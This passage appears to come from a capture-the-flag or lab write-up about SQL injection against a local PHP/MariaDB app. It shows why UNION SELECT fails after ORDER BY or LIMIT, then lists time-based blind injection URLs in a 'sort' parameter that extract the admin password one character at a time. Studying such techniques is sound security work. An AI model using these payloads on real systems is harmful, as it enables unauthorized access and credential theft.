 NG: SQLi with UNION SELECT.
We can not use it after ORDER BY or LIMIT cause:

```console
> # NG because the first SELECT statement needs to be enclosed in parenthesis ()
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC UNION SELECT * FROM numbers;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT * FROM numbers' at line 1

> (SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC) UNION SELECT * FROM numbers;
+----+------+----------+---------+-----------+---------------------+
| id | num  | pipeline | user_id | processed | processed_date      |
+----+------+----------+---------+-----------+---------------------+
|  4 | E    |          |       2 |         1 | 2023-12-11 04:19:25 |
|  1 | E    | NULL     |       1 |         1 | 1970-01-01 00:00:01 |
|  2 | 2.65 |  *= PI   |       1 |         0 | NULL                |
|  3 | 3.33 | NULL     |       1 |         1 | 1970-01-01 00:00:01 |
+----+------+----------+---------+-----------+---------------------+
4 rows in set (0.001 sec)

> # NG: UNION SELECT with ORDER BY clause
> SELECT * FROM numbers WHERE user_id = 2 ORDER BY processed_date DESC UNION (SELECT * FROM numbers);
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION (SELECT * FROM numbers)' at line 1

> # NG: UNION SELECT with LIMIT clause
> SELECT * FROM numbers WHERE user_id = 2 LIMIT 1,0 UNION SELECT * FROM numbers;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'UNION SELECT * FROM numbers' at line 1
```

Also, multiple SQL query in PHP mysqli client doesn't work.

Thus, I will use Time-Based SQLi with ORDER BY clause.

### Leak admin's password

URL with SQLi payload:

```text
http://localhost:5003/index.php?page=home&sort=DESC,IF(true,SLEEP(3),1)
http://localhost:5003/index.php?page=home&sort=DESC,IF(false,SLEEP(3),1)

http://localhost:5003/index.php?page=home&sort=DESC,IF((SELECT 1),SLEEP(3),1)
http://localhost:5003/index.php?page=home&sort=DESC,IF((SELECT password FROM users WHERE username="admin")!="ng",SLEEP(3),1)

http://localhost:5003/index.php?page=home&sort=DESC,IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),1,1))=ASCII("R"),SLEEP(3),1)
http://localhost:5003/index.php?page=home&sort=DESC,IF(ASCII(MID((SELECT password FROM users WHERE username="admin"),2,1))=ASCII("E"),SLEEP(3),1)
```
